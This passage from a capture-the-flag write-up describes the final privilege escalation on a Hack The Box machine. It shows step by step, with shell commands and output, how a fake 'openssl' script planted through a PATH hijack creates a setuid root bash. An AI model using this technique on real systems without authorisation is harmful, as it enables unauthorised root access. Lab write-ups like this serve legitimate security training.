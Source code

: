 ## Path Exploitation

A few of the commnads executed haven't got a full path to the binary. From above we see mktemp, openssl and mv are all called directly which means the paths in the environment variable are used to find them. This is a well known escalation path with a good explanation [here](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) and one I used on another box called [Previse](https://www.hackthebox.com/home/machines/profile/373).

First we create a file in the /tmp folder with the name of one of the commands we see with no path specified, I'm using openssl for this one. There's no text editor on the pki box so let's do it on Kali then we can copy the base64 over to the box:

```text
┌──(root💀kali)-[~/htb/static]
└─# echo "#\!/bin/bash                                                                                           
/bin/cp /bin/bash /tmp/bash
chmod u+s /tmp/bash" | base64          
IyEvYmluL2Jhc2gKL2Jpbi9jcCAvYmluL2Jhc2ggL3RtcC9iYXNoCmNobW9kIHUrcyAvdG1wL2Jhc2gK
```

Now paste that over on the box decoding it back to that multiline bash script and outputing it to a file called openssl:

```text
www-data@pki:/tmp$ echo "IyEvYmluL2Jhc2gKL2Jpbi9jcCAvYmluL2Jhc2ggL3RtcC9iYXNoCmNobW9kIHUrcyAvdG1wL2Jhc2gK" | base64 -d > openssl
www-data@pki:/tmp$ ls -lsa
ls -lsa
   4 -rwxr-xr-x 1 www-data www-data      60 Nov  6 19:40 openssl
```

Add our /tmp path to the beginning on the environment $PATH variable:

```text
www-data@pki:/tmp$ export PATH=/tmp:$PATH
www-data@pki:/tmp$ echo $PATH  
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

## Root Flag

Go back to the other session and interact with the ersatool. Then when it attmpts to use openssl it will use our version instead because /tmp is in the path list before /usr/bin where the actual file exists.

Check the /tmp folder to see bash has been copied to it and the sticky bit is set:

```text
www-data@pki:/tmp$ ls -lsa
ls -lsa
   4 -rwxr-xr-x 1 www-data www-data      40 Nov  6 19:33 openssl
1088 -rws------ 1 root     www-data 1113504 Nov  6 19:38 bash
```

Finally we can escalate to root and grab the flag:

```text
www-data@pki:/tmp$ bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
cat /root/root.txt
<HIDDEN>
```

That was a long and difficult box, but fun and I learnt a few things so worth it. I hope you enjoyed it too. See you next time.
